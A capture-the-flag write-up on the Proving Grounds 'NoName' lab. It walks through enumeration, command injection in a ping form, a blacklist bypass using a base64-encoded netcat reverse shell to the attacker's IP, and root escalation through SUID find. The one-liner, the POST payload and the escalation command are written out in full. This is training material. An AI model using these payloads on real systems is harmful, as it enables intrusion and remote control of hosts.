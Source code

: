 # PG Play - NoName

#### Ip: 192.168.183.15
#### Name: NoName
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV   192.168.183.15
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-30 10:20 CDT
Nmap scan report for 192.168.183.15
Host is up (0.071s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```

Looking at the site on port 80 we find a "fake admin area"

![noname_site.png](../assets/noname_assets/noname_site.png)

Trying to insert a command we get the message `Fake ping executed`

Opening WireShark and listening for packets, we can see the site is indeed able to reach our tun0 address. However this is likely just from the POST request from the form, as no ICMP packets were received.

![noname_ping.png](../assets/noname_assets/noname_ping.png)

Lets capture this request in Burp and see if we can execute any other commands then `ping`

After quite awhile trying different command injection techniques, I was unable to to get any execution.

Taking a step back and trying some directory fuzzing I find both an `/admin` page as well as a `/superadmin.php` page. 

![noname_dirs.png](../assets/noname_assets/noname_dirs.png)

`/admin` seemed to just be an image gallery. The page source however had an interesting comment: `<!--passphrase:harder-->`. We'll hold onto that and see if we can use it anywhere later.

### Exploitation

Navigating to `superadmin.php` we find a similar functionality as the "fake admin area", but this time we can see the ping being executed in our browser output:

![noname_admin_ping.png](../assets/noname_assets/noname_admin_ping.png)

I can now perform command injection in this field, confirming the vulnerability with: `127.0.0.1 | id`

![noname_ex.png](../assets/noname_assets/noname_ex.png)

Still struggling to get a reverse shell, I decide to check out the superadmin.php file and see several different strings being blacklisted:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

This will make getting a reverse shell a bit more tricky because so many characters are blacklisted. 

Capturing the request in Burp, we can bypass the blacklist at least for now by inserting apostrophes between charcters:

![noname_bypass.png](../assets/noname_assets/noname_bypass.png)

But we'll still need to get a reverse shell here. Lets base64 encode a reverse shell onliner to try to bypass the blacklist:

I'll use:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.208 443 >/tmp/f
```

Base64 encode it, and then use `echo -n (rev_shell) | base64 -d | bash` to pass the command in Burp:

```text
pinger=127.0.0.1+|echo+-n+"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIwOCA0NDMgPi90bXAvZg=="+|+base64+-d+|bash&submitt=Submit+Query
```

Running this with a NC listener going gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Play/NoName]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.208] from (UNKNOWN) [192.168.183.15] 50730
bash: cannot set terminal process group (739): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haclabs:/var/www/html$ whoami
whoami
www-data
www-data@haclabs:/var/www/html$ hostname
hostname
haclabs
```

I can now grab the local.txt flag:

![noname_local.png](../assets/noname_assets/noname_local.png)

### Privilege Escalation

Loading linpeas onto the target we see that `find` has the SUID bit set.

![noname_lin.png](../assets/noname_assets/noname_lin.png)

Heading over to GTFObins.com we find the exact command we need to exploit this misconfiguration:

![noname_gtfo.png](../assets/noname_assets/noname_gtfo.png)

`./find . -exec /bin/sh -p \; -quit`

We can execute this command, elevate our shell to root, and grab the final flag:

![noname_root.png](../assets/noname_assets/noname_root.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------
